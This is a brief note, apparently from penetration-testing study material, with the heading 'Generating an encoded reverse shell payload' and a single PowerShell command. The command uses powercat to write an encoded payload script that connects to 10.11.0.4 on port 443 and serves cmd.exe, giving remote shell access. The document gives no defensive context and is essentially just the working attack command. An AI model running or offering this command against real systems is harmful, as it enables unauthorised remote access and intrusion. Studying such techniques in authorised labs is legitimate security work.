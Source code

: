 # Generating an encoded reverse shell payload
```ps
powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
```
